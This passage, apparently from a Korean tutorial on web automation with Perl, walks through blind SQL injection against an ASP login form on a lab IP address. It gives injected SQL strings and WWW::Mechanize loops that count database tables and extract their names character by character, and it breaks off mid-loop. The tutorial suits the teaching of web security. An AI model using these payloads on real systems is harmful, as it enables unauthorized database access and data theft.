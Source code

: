     #!sql
    strSQL="select * from member where user_id='mana' and substring((select top 1 name from sysobjects where xtype='U'),$i,1)='$char'--' and user_pw='blah'"

이제 우리는 테이블 이름 한 개를 얻을 수 있습니다.
하지만 아직 나머지 테이블 이름은 얻어 올 수가 없죠.
우리가 얻어온 첫 번째 테이블 명이 `member`라는 테이블이라면,
두 번째 테이블을 얻어오기 위해 패턴을 변경해야 합니다.

    #!sql
    strSQL="select * from member where user_id='mana' and substring((select top 1 name from sysobjects where xtype='U' and name!='member'),$i,1)='$char'--' and user_pw='blah'"

`sysobjects` 테이블에서 `member` 테이블을 제외시켜 출력했는데,
이 내용을 포함시켜 패턴을 뽑아보면 다음처럼 표현할 수 있습니다.

    #!sql
    strSQL="select * from member where user_id='mana' and substring((select top 1 name from sysobjects where xtype='U' $base_query),$i,1)='$char'--' and user_pw='blah'"

이번에는 `$base_query` 부분에 찾아낸 모든 테이블 명을 제외시키는 내용이 들어갑니다.
몇 개의 테이블이 존재하는지 모르기 때문에
우선 몇 개의 테이블이 존재하는지 확인을 해야겠네요.
테이블 개수를 알아야 반복문을 만들 때 반복 횟수를 결정할 수 있겠죠?

    #!perl
    my $cnt;
    for ( $cnt = 1;; $cnt++ ) {
        $mech->get('http://172.168.19.133/member/member_login.asp');
        $mech->submit_form(
            form_name => 'form',
            fields    => {
                user_id => "mana' and(select count(name) from sysobjects where xtype='U')=$cnt--",
                user_pw => 'blah'
            }
        );
        unless ( $mech->content =~ /alert/ ) {
            print $cnt;
            $mech->get('http://172.168.19.133/member/member_logout.asp');
            last;
        }
    }

`count` 함수를 이용하여 간단하게 몇개의 테이블이 있는지 확인할 수 있습니다.
반복 횟수가 나왔으니 드디어 모든 테이블 명을 알아올 수 있습니다!

    #!perl
    print "\n" . "=" x 20 . "\n";
    print "=====TABLE_NAME====\n";
    @table_name;
    @all_table;
    $i          = 1;
    $base_query = "";
    for ( 1 .. $cnt ) {
        while (1) {
            $inner_flag = 0;
            for $char ( "", 'a' .. 'z', 0 .. 9, '_' ) {
                $mech->get('http://172.168.19.133/member/member_login.asp');
